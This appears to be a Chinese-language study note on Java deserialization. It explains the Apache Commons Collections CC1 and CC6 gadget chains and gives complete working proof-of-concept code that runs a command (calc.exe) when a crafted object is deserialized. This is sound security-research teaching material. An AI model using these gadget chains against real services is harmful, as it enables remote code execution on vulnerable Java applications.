








# 前置知识

## 反射

- Java动态特性便是依赖反射机制

对比传统的静态加载，如经典的”new一个对象“吧：

```Java
User user = new User();
```

在编译期就获得User的相关信息，若User类不存在或有错误，编译就会报错。

如果以反射机制来加载便是：

```java
Class.forname("包名.User");
```

程序运行到该处，Jvm才会去加载User，所以就算User类不存在或是有错误，编译时也不会报错。

这样的动态性规避了我们要拿到一个除了系统类之外的类，需要先import才能使用的处境，在程序运行时也可以轻松加载任意类，极大的提高了程序的灵活性。与此同时，对于攻击者来说也十分有利。

所以才有说：Java安全可以从反序列化漏洞开始说起，反序列化漏洞又可以从反射开始说起。

### 常用方法

- forName 获取类的实例

- getMethod 获取函数的方法

- invoke 执行函数的方法

  > [以这个方法].invoke（[执行method的对象]，[需要被执行的参数]）

### 试验一下

```Java
Runtime.class.getMethod("exec", String.class).invoke(Runtime.getRuntime(), "calc.exe");
```

```java
Class.forName("java.lang.Runtime").getMethod("exec", String.class)
    .invoke(Runtime.getRuntime(),"calc.exe");
```

两条命令执行语句一样的效果，都是通过反射执行了**Runtime.getRuntime().exec("calc.exe");**

## 动态代理

我们写静态代码一般都是定义接口——编写实现类——创建实例并调用

这时候想增加一个功能，可以用静态代理来增加一个代理实现类，虽然确实是在没有改变原有代码的前提下增加功能。但如果一个代理实现类要代理多个类时：

- 新建多个代理实现类，每个目标对象对应一个代理类，但是这样会**产生过多的代理类**
- 只维护一个代理类，由这个代理类实现多个接口，但是这样就导致**代理类过于庞大**

**于是便出现动态代理**：

允许在运行期动态创建一个接口的实例，通过`Proxy`创建代理对象，然后将接口方法“代理”给`InvocationHandler`完成。

JDK 动态代理只需要实现 InvocationHandler 接口，重写 invoke 方法便可以完成代理的实现

### Proxy

- java.lang.reflect.Proxy

`static Object newProxyInstance(ClassLoader loader, Class<?>[] interfaces, InvocationHandler h)` 构造实现指定**接口**的代理类的一个新实例，所有方法会调用给定处理器对象的 invoke 方法

```
参数1：ClassLoader，通常用默认的类加载器。
参数2：需要被代理的对象集合（通常传入一个接口。
参数3：实现InvocationHandler接口的对象，里面一般包含具体的代理逻辑 （invoke
```

### InvocationHandler

- java.lang.reflect.InvocationHandler ：

`Object invoke(Object proxy, Method method, Object[] args)` 

定义了代理对象调用方法时希望执行的动作，用于集中处理在动态代理类对象上的方法调用。

可以看出对比静态代理：

1. 一个动态代理可代理多个类（可一次性代理一类业务），代理的是接口。

2. 本质依靠反射实现。

   

# Commons Collections

## 概述

Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类。作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发。
简单来说它是一个基础数据结构包，同时封装了很多功能，其中我们需要关注一个功能：

> - Transforming decorators that alter each object as it is added to the collection
> - 转化装饰器：修改每一个添加到collection中的object

## 环境搭建

统一用maven来导包

修改pon.xml，比如导入Commons Collections 3.1

```xml
 <dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.1</version>
    </dependency>
  </dependencies>
```

## CommonsCollections 1

### 测试环境

- JDK 1.7
- Commons Collections 3.1

### 利用链

```
ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                Map(Proxy).entrySet()
                    AnnotationInvocationHandler.invoke()
                        LazyMap.get()
                        
                            ChainedTransformer.transform()
                                ConstantTransformer.transform()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Class.getMethod()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.getRuntime()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.exec()
```

### 涉及接口/类

#### Transformer

是⼀个接口，只有⼀个待实现的方法。

```java
public interface Transformer {
 public Object transform(Object input);
}
```

- 以下都是实现**Transformer**接口的类

#### ConstantTransformer

实现在构造函数时传入的对象，在transform这个方法中返回的简单功能。

```Java
public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }
```

#### InvokerTransformer

这个类以反射机制，可用来执行任意方法。也是我们构造的任意代码执行点。

```Java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;   // 参数1：待执⾏的⽅法名
        this.iParamTypes = paramTypes;   // 参数2：参数的类型
        this.iArgs = args;               // 参数3：实际的参数值
    }

// 核心
public Object transform(Object input) {
        if (input == null) { return null;} 
    else { try {
             Class cls = input.getClass(); // ①
             Method method = cls.getMethod(this.iMethodName, this.iParamTypes);
             return method.invoke(input, this.iArgs); //通过反射来调用某方法
            } catch ...
```

① getClass( ) 获取运行对象的类

- 如果传入的是对象，返回的则是当前对象的类
- 如果传入的是类，一律返回java.lang.class

#### ChainedTransformer

遍历传入的数组，调用每一个数组中的transform方法。

a.b.c.d  将前⼀个回调返回的结果，作为后⼀个回调的参数传入。

```Java
 public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }

    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }
        return object;
    }
```

### 重构POC

#### 构造

构造攻击代码，测试Demo以最终执行 Runtime.getRuntime().exec("calc.exe"); 为例

转换成反射机制如下：

```Java
Method f = Runtime.class.getMethod("getRuntime"); // ①
Runtime r = (Runtime) f.invoke(null,null);
r.exec("calc.exe");
```

① 为何要用反射？不直接Runtime.getRuntime()获取实例？

因为如果直接Runtime.getRuntime()返回的是一个Runtime的实例，而Runtime并没有继承Serializable接口，后边会序列化失败。  


综合以上信息，我们构造出任意命令执行的这部分代码：

```Java
 Transformer[] transformers = new Transformer[] {  // ①

                new ConstantTransformer(Runtime.class), 

                new InvokerTransformer("getMethod",   // ②
                        new Class[] {String.class, Class[].class }, // ③
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class},
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers); // ④
```

① 构建了一个transformers数组，在其中构建了任意命令执行的核心代码。

② 利用 java.lang.class 中的 getMethod ，反射获取getRuntime

③ Class[].class、new Class[0] 为啥要这样写？

> 基于getMethod的定义如下
>
> ```java
> public Method getMethod(String name, Class<?>... parameterTypes)
>         throws NoSuchMethodException, SecurityException { ...}
> ```
>
> 可以看出Class[].class，其实就是对应着这里的第二个参数。即使我们不需要传递参数，也要在这里加一个Class[].class，后边对应的new Class[0]就只是起到一个占位的作用。 （invoke 同理）

④ 遍历传入的transformers数组，调用每一个数组中的transform方法。

于是以上代码等同于：

```Java
((Runtime)Runtime.class.getMethod("getRuntime",null).invoke(null,null)).exec("calc.exe");
```

后半段链就构造好了。

#### 触发

目前已经构造到只需要反序列化后调用ChainedTransformer#transform( )，并传递任意内容即可rce。

- 目的：调用readObject的时候就触发rce。

- 思路：需要找到一条链，以readObject为触发起点，一步步调用到transform方法。（直接找到能在readObject后就调用是当然最好的）

##### **LazyMap**

CC1是LazyMap中的get方法触发。

```Java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
     protected final Transformer factory;
     ...   // 在factory属性里面，是Transformer接口型的
     public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
     ...
     public Object get(Object key) {
        if (!super.map.containsKey(key)) {
            Object value = this.factory.transform(key);
            super.map.put(key, value);
            return value;
        } else {
            return super.map.get(key);
        }
    }
}
```

而ChainedTransformer就是Transformer接口的一个实现，那么这个factory我们就可以给它设置成transformerChain

```java
Transformer transformerChain = new ChainedTransformer(transformers);
...
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

以上便实现outerMap一旦被调用，就会触发get，就会触发ChainedTransformer#transform

现在的事情就是让LazyMap#get()被触发来延长利用链：


##### AnnotationInvocationHandler

基于JDK在每个服务器上都会有，而其他的第三方依赖不一定。

所以我们希望在找到一个在JDK里面的类，让他在被反序列化时触发。

于是找到AnnotationInvocationHandler

```java 
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class); // 找到AIH里面，需要这两参数的构造方法
        construct.setAccessible(true);  // 绕过私有字段
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap); // 实例化这个构造方法，传入 outerMap
                      // 第一个参数 要求是注解类即可
```



实例化完成后，现在的this.memberValues为outerMap

问题就从触发lazymap#get()转换成如何触发this.memberValues#get()

> memberValues属性是一个Map，而LazyMap是Map的一个实现，都会有共同的get方法


AnnotationInvocationHandler#invoke() 中就有我们需要触发的操作。



依据代码逻辑需要触发这个点的条件为：不能调用equals方法和有参方法


再看CC1入口AnnotationInvocationHandler#readObject()



这里的readObject又调用了this.memberValues#entrySet()

而entrySet()刚好是一个无参方法

如果memberValues它是个代理类，那么就会调用memberValues对应handler的invoke方法，

而上边AnnotationInvocationHandler#invoke()就有需要触发的操作。


所以做一个动态代理：

> 能做动态代理是因为AnnotationInvocationHandler它实现了InvocationHandler

```Java
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler); 
    // 在调用到proxyMap这个参数，就会执行handler的invoke方法   
InvocationHandler handler1 = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);  
```

在handler1被反序列化时，调用了this.memberValues.entrySet，而this.memberValues是proxyMap这一代理对象：所以实际会去调用 handler 的 invoke 方法。

AnnotationInvocationHandler#invoke又调用了this.memberValues#get

this.memberValues为之前设置好的lazymap，所以这里调用的是lazymap#get，从而触发后边的rce链。


##### 两处handler

动态代理这里蛮绕的（对我来说，再理一理这两个handler

-  第一个handler（handler）：是利用invoke中的方法触发LazyMap#get()

- 第二个handler（handler1）：是为了在调用到代理类proxyMap时，触发第一处的invoke方法

```Java
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler); 
InvocationHandler handler1 = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);  
```

#### 插曲

```
ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
```

最后就只剩最前半段的反序列化触发

一般到这网上很多demo就开始直接书写序列化反序列化部分。

但对比ysoserial，就会发现还有不可省略的一步：



在准备序列化前，再将真正具有危害的transformers数组传入transformerChain

在于：用动态代理代理了map对象之后，在任何地方执行了map的方法就会触发payload弹计算器。比如在本地调试代码时，会调用toString之类的方法，在还没反序列化时就调用到LazyMap#get()，导致非预期执行。自己打自己，弹出两计算器。

所以在POC的最后才将执行命令的transformers数组设置到transformerChain 

```Java
        Field f ;
        f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);
```

### 完整POC

```Java
public class ProxyLazyMapCC1 {

    public static void main(String[] args) throws Exception {

        Transformer[] fakeTransformers = new Transformer[]{ new ConstantTransformer(1) };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new String[] { "calc.exe" }),

                new ConstantTransformer(1),
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);


        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class); // 找到AIH里面，需要这两参数的构造方法
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap); // 实例化这个构造方法，传入 outerMap

        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);

        InvocationHandler handler1 = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);


        // 最后再把真正的Transformer传入chainedTransformer
        Field f ;
        f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler1);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
}
```

### 限制

CC1在Java 8u71以后利用不了，在于AnnotationInvocationHandler#readObject()的代码逻辑发生变化：

```Java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        GetField var2 = var1.readFields();
        Class var3 = (Class)var2.get("type", (Object)null);
        Map var4 = (Map)var2.get("memberValues", (Object)null);
       ...
}
```

直接以"memberValues"这个持久字段名称来获取对应的值，没有了this.memberValues#entrySet()，无法将memberValues设置成代理类，通过做动态代理触发到LazyMap#get()，就没有了后边的触发调用。

所以CC1在高版本Java会出现限制。于是希望找到一个更通用一点的链，无JDK版本限制，比如CC6。

## CommonsCollections 6

### 测试环境

- JDK 1.8 （随意无限制
- Commons Collections 3.1

### 利用链

后半段链和CC1一样，重点关注**如何触发LazyMap#get()**

### 重构POC

直接对前半段链分析

org.apache.commons.collections.keyvalue.TiedMapEntry

```java 
public class TiedMapEntry implements Entry, KeyValue, Serializable {
  ...
   private final Map map;
   public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
    
  public int hashCode() {
        Object value = this.getValue();  // here
        return (this.getKey() == null ? 0 : this.getKey().hashCode()) ^ (value == null ? 0 : value.hashCode());
    }
  
  public Object getValue() {
        return this.map.get(this.key); // here
    }
    ...
}
```

hashCode() 调用了getValue()，getValue() 又调用了 this.map.get()，

于是问题转变成**哪里调用了 TiedMapEntry#hashCode()**

#### 简易版

```
 ObjectInputStream.readObject()
            HashMap.readObject()  
            HashMap.hash()
            TiedMapEntry.hashCode()
            ...
```

直接从入口：java.util.HashMap#readObject()

```java
...
for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);  // here
            }
...
```

java.util.HashMap#hash()

```java 
static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

HashMap#readObject()调用了hash(key)，hash方法又调用了key.hashCode()。

所以只要将key设置为TiedMapEntry对象，即可将上边的连起来。

##### 构造Gadget

```Java
 Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new String[] { "calc.exe" }),

                new ConstantTransformer(1),
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(outerMap, "oo");

        HashMap expMap = new HashMap();  
        expMap.put(entry, "uu");   
        outerMap.remove("oo"); // ①
      
        f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);  // ②
        
        byte[] serializeData=serialize(expMap);
        unserialize(serializeData);
```

①  因为lazymap#get 需要一个不存在的key才会执行factory.transform，所以最后将lazymap中的key使用remove移除掉，否则会影响到payload的生成导致链的利用失败。

② 在调用到HashMap#put方法时就会触发到hash方法而导致链被调用，所以和CC1一样：为了避免还没反序列化本地就执行命令，也是需先传一个fakeTransformers，后边在要进入序列化通过反射，传入真正的transformers。

#### yso版

```
ObjectInputStream.readObject()
           HashSet.readObject()
                HashMap.put()
                  HashMap.hash()
                    TiedMapEntry.hashCode()
                        ...
```

yso的CC6用的是HashMap#hash()调用了hashCode()

```java
    final int hash(Object k) {
        int h = hashSeed;
        if (0 != h && k instanceof String) {
            return sun.misc.Hashing.stringHash32((String) k);
        }

        h ^= k.hashCode();   // here
        ...}
```

HashMap#put 调用 HashMap#hash

```java
 public V put(K key, V value) {
        if (table == EMPTY_TABLE) {
            inflateTable(threshold);
        }
        if (key == null)
            return putForNullKey(value);
        int hash = hash(key);   // here
        int i = indexFor(hash, table.length);
        for (Entry<K,V> e = table[i]; e != null; e = e.next) {
            Object k;
            if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
                V oldValue = e.value;
                e.value = value;
                e.recordAccess(this);
                return oldValue;
       ...
    }
```

继续寻找满足

1. 调用了 HashMap#put
2. 传入的key需可控


入口HashSet#readObject：对我们的输入流直接进行反序列化

```java 
private void readObject(java.io.ObjectInputStream s){
...
 for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }}
```

调用了map.put，其中map我们可以控制为HashMap。

但传入的参数e是从readObject取出来的，那么就去看看writeObject怎么写的：

```Java
 private void writeObject(java.io.ObjectOutputStream s){
    ...
    for (E e : map.keySet()) // 如果我们能够控制 map 中的 key，那么我们就能控制 s
            s.writeObject(e);
 }
```


梳理一下现在的目标是：

控制传入map的keySet的返回结果 来控制变量，即：通过反射修改keySet的返回结果为**[TiedMapEntry]**对象



##### 构造Gadget

```Java
Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new String[] { "calc.exe" }),

                new ConstantTransformer(1),
        };

        Transformer chain = new ChainedTransformer(transformers);

        HashMap innermap = new HashMap();
        LazyMap outermap = (LazyMap)LazyMap.decorate(innermap,chain);

        TiedMapEntry entrymap = new TiedMapEntry(outermap,123);

        HashSet hashset = new HashSet(1);
        hashset.add("foo");

        // 反射获取HashSet的map属性，以便后面对map的key的修改
        Field field = Class.forName("java.util.HashSet").getDeclaredField("map");
        field.setAccessible(true);
        HashMap hashset_map = (HashMap) field.get(hashset);

        // 反射获取了HashMap中的table属性  ①
        Field table = Class.forName("java.util.HashMap").getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[])table.get(hashset_map);

        // 封装于Node对象中
        Object node = array[0];
        if(node == null){
            node = array[1];
        }
        
        // 获取到了table中的key之后，利用反射修改其为entrymap
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node,entrymap);

        byte[] serializeData=serialize(hashset);
        unserialize(serializeData);
```

① 为什么要获取table属性，看一下table是啥

HashMap中的内部静态类Entry用于存储键值对，且可以以链的形式添加多个元素



而Entry类型的变量名便是 table，可以理解为hashmap的存储底层




## 总结





CC 3、5、7和CC 1、6 都是Commons Collections<=3.2.1中存在的反序列化链，所以也都是通过调用InvokerTransformer.transform()达到后续RCE目的，CC 2、4是Commons Collections 4.0以上中存在的反序列化链，最终是通过调用Transformer的另一个继承类的transform()达到目的。

所以CC链大概都是由这三段构成：

- readObject复写利用点触发 (source)
- 最终调用transform方法的反序列化利用链 (gadget)
- 触发后续执行链达到rce目的 (sink)


## 参考

https://paper.seebug.org/1242/#_21

https://xz.aliyun.com/t/7031#toc-10

《java安全漫谈系列》
